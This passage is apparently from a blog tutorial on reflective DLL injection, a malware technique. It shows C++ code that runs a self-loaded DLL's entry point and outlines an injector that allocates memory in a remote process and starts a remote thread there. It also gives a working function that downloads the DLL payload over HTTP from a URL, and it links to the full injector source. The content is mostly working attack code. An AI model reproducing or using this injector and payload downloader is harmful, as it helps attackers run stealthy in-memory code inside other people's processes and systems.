 ```cpp
/*--------------FLUSHING INSTRUCTION CACHE ALLA FEWER*/
 //as mentioned here https://github.com/stephenfewer/ReflectiveDLLInjection/blob/master/dll/src/ReflectiveLoader.c
 //We must flush the instruction cache to avoid stale code being used which was updated by our relocation processing.
 FIC((HANDLE)-1, NULL, 0x00);
 
 /*--------------EXECUTE ENTRY POINT--------------*/
 pDllMain = (fnDllMain)(pebase + pImgNtHdrs->OptionalHeader.AddressOfEntryPoint);
 return pDllMain((HMODULE)pebase, DLL_PROCESS_ATTACH, NULL);
```

### Reflective DLL Injector

In the journey of “Inject a Reflective DLL” we still miss the *injection* part. Our DLL is ready to load itself and shine, However it still needs to be placed into a remote process and the ReflectiveFunction has to be executed. Step by step what does our injector has to do? 

- Download/Read our DLL bytes
- Find the RAW address of the ReflectiveFunction
- Allocate Memory in the remote process
- Write the RAW bytes in the remote memory location
- Create a remote thread that would run the “ReflectiveLoader” function

First things, first. Let’s download the DLL (skipping the argument parsing part, you can find the full code [here](https://github.com/oldboy21/RflDllOb/blob/main/ReflectiveDLLInjector/ReflectiveDLLInjector.cpp)):  

```cpp
//function to download the payload via HTTP
vector<char> downloadFromURL(IN LPCSTR url) {
  IStream* stream;
  vector<char> buffer;
  if (URLOpenBlockingStreamA(0, url, &stream, 0, 0))
  {
    cout << "[-] Error occured while downloading the file";

    return buffer;
  }
  //we work with C++ so let's enjoy the vector class
  buffer.resize(100);
  unsigned long bytesRead;
  int totalbytes = 0;
  while (true)
  {
    stream->Read(buffer.data() + buffer.size() - 100, 100, &bytesRead);
    if (0U == bytesRead)
    {
      break;
    }
    buffer.resize(buffer.size() + 100);
    totalbytes += bytesRead;
  };
  stream->Release();
  buffer.erase(buffer.begin() + totalbytes, buffer.end());
  return buffer;
}
```

